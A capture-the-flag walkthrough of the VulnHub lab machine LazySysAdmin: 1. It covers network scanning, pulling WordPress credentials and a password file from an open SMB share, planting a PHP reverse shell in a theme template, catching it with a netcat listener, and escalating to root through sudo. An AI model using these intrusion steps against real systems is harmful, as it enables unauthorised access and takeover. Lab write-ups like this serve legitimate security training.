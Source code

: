 # LazySysAdmin: 1

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1    0a:00:27:00:00:0f       (Unknown: locally administered)
192.168.56.100  08:00:27:70:d2:8a       PCS Systemtechnik GmbH
192.168.56.106  08:00:27:e3:a8:a2       PCS Systemtechnik GmbH

3 packets received by filter, 0 packets dropped by kernel
```

The IP address is `192.168.56.106`, let's enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC -p22,80,139,445,3306,6667 -v -oN fullScan 192.168.56.106

Nmap scan report for 192.168.56.106
Host is up (0.00039s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 4 disallowed entries
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-generator: Silex v2.2.7
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  DDtb        Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info:
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.102
|_  error: Closing link: (nmap@192.168.56.102) [Client exited]
MAC Address: 08:00:27:E3:A8:A2 (Oracle VirtualBox virtual NIC)
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 9m58s, deviation: 5h46m24s, median: 3h29m57s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2023-10-01T15:52:45
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2023-10-02T01:52:46+10:00
| nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   LAZYSYSADMIN<00>     Flags: <unique><active>
|   LAZYSYSADMIN<03>     Flags: <unique><active>
|   LAZYSYSADMIN<20>     Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
```

Let's first go for SMB :

```bash
root@kali: smbmap -H 192.168.56.106

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 192.168.56.106:445      Name: 192.168.56.106            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        share$                                                  READ ONLY       Sumshare
        IPC$                                                    NO ACCESS       IPC Service (Web server)
```

now connect ot `share$` :

```bash
root@kali: smbclient \\192.168.56.106\share$ -N

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Aug 15 07:05:52 2017
  ..                                  D        0  Mon Aug 14 08:34:47 2017
  wordpress                           D        0  Tue Aug 15 07:21:08 2017
  Backnode_files                      D        0  Mon Aug 14 08:08:26 2017
  wp                                  D        0  Tue Aug 15 06:51:23 2017
  deets.txt                           N      139  Mon Aug 14 08:20:05 2017
  robots.txt                          N       92  Mon Aug 14 08:36:14 2017
  todolist.txt                        N       79  Mon Aug 14 08:39:56 2017
  apache                              D        0  Mon Aug 14 08:35:19 2017
  index.html                          N    36072  Sun Aug  6 01:02:15 2017
  info.php                            N       20  Tue Aug 15 06:55:19 2017
  test                                D        0  Mon Aug 14 08:35:10 2017
  old                                 D        0  Mon Aug 14 08:35:13 2017
```

interesting forlder is wordpress let's see if we can find the wp-config.php file :

```bash
smb: \wordpress\> get wp-config.php
getting file \wordpress\wp-config.php of size 3703 as wp-config.php (1808.0 KiloBytes/sec) (average 1808.1 KiloBytes/sec)
smb: \wordpress\> exit
```

the content of `wp-config.php` file is :

```text
/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

we also download the `deets.txt` from the share.

content of deets.txt

```text
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345
```

## 3.Gaining Shell

We can not connect to mysql remotely but can connect to wordpress admin panel using the credentials found in `wp-config.php`:

![wordpress panel](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f0e53320-202e-4a26-958d-b0f565a74b04)

now it is easy to get a reverse shell.

upload pentestmonkey php reverse shell into this path :

```text
Appereance -> editor -> 404 Template
```

![404](https://github.com/Git-K3rnel/VulnHub/assets/127470407/2946e356-e603-4c32-b6cd-667455beccb5)

start a listener and navigate to `192.168.56.106/wordpress/wp-content/themes/twentyfifteen/404.php`

```bash
root@kali: nc -nvlp 4444

listening on [any] 4444 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.106] 34822
Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 01:26:57 up  5:00,  0 users,  load average: 0.00, 0.00, 0.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 4.Privilege Escalation

Navigate to `/home` and you see user `togie`.

change user to togie and privide the password `12345` we found in deets.txt previously :

```bash
www-data@LazySysAdmin:/var/www/html$ su togie
su togie
Password: 12345

togie@LazySysAdmin:/var/www/html$
```

check the sudo permissions :

```bash
togie@LazySysAdmin:/var/www/html$ sudo -l
Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL

togie@LazySysAdmin:/var/www/html$ sudo bash

root@LazySysAdmin:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)

root@LazySysAdmin:/var/www/html# cd /root

root@LazySysAdmin:/root# cat proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
```

this is how you can become root on this machine :)




